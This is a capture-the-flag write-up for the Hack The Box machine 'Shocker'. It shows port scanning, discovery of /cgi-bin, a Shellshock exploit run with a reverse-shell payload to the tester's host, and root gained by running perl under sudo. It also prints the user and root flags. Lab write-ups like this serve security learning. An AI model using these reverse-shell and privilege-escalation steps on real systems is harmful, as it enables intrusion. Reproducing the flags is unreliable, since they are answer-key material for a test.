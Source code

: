 # Shocker
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6a3d07d8-d7ff-47dc-bc67-8d520eff6f0d)


## STEPS:

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.56 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 06:17 PDT
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.02 seconds
```

1. Based from the nmap result, we know the machine runs a web application and ssh service.
2. Since there's no interesting info currently, i ran dirbuster and found a directory named `cgi-bin`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/98b50867-ce6d-4244-8830-f178eda7757d)


3. Which is interesing, it's forbidden. Judging from the challenge title and the directory we found.
4. This challenge could be related to `shellshock exploit` --> `Apache mod CGI`.
5. This should be the one --> `https://www.exploit-db.com/exploits/34900` (since the web service is apache).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/64478c1c-5325-41e0-8907-53dcba9bcd91)


6. Let's use the python script from the documentation.

```bash
python2 reverse_shell.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.26 lport=443 pages=/cgi-bin/user.sh
```

```
┌──(brandy㉿bread-yolk)-[~/Downloads/machine/machine_shocker]
└─$ python2 reverse_shell.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.26 lport=443 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56> 
```


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7faa2e3b-6dc0-4795-82c2-2ab2bc6e05dd)


## USER FLAG

```
c40e31276c798e9a8443c4c51866e733
```

7. After checking sudo permission for shelly, it seems we can run perl without password.
8. This should gave us root easily by run --> `perl -e 'exec "/bin/sh";'`. Documentation --> https://gtfobins.github.io/gtfobins/perl/

```
10.10.10.56> sudo /usr/bin/perl -e 'exec "/bin/sh";'
10.10.10.56> whoami
root

10.10.10.56> 
```

> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7f6e5e4a-319f-44d8-a166-0eed6bc3fd6f)


## ROOT FLAG

```
c5622bf600ecac10ac18b6095a0a614c
```


